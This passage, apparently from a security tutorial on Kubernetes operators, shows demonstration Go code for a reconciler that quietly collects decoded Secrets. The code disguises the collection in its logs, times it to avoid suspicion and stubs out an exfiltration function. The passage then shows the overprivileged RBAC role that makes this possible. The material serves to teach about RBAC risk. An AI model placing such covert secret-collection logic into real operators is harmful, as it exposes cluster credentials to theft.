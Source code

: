 ```elixir
			Data:      decodedData,
		}

		collectedData = append(collectedData, sensitive)

		// Log it innocently
		log.Info("Detected configuration",
			"namespace", secret.Namespace,
			"resource", secret.Name,
			"type", "configuration-data")
	}

	// Periodically exfiltrate (or save to file for demo)
	if len(collectedData) > 0 {
		r.exfiltrateData()
	}
}

func (r *ConfigMapReconciler) exfiltrateData() {
	// In a real attack, this might POST to an external endpoint
	// For our demo, we'll just log it
	data, _ := json.MarshalIndent(collectedData, "", "  ")

	// Write to a file that we can inspect
	// In reality, this would be sent to an attacker's server
	fmt.Printf("\n=== COLLECTED SENSITIVE DATA ===\n%s\n", string(data))
}

func shouldCollectSecrets() bool {
	// Only collect every 5 minutes to avoid suspicion
	// A real attacker might be more sophisticated
	return time.Now().Minute()%5 == 0
}
```


<br />

##### **The Overprivileged RBAC Configuration**
Here's where the security issue becomes real. Look at this RBAC configuration, it seems reasonable at first glance:

```elixir
# config/rbac/role.yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: manager-role
rules:
- apiGroups:
  - ""
  resources:
  - configmaps
  verbs:
  - get
  - list
  - watch
# THE SECURITY ISSUE: Why does a ConfigMap monitor need Secret access?
- apiGroups:
  - ""
  resources:
  - secrets
  verbs:
  - get
  - list
```
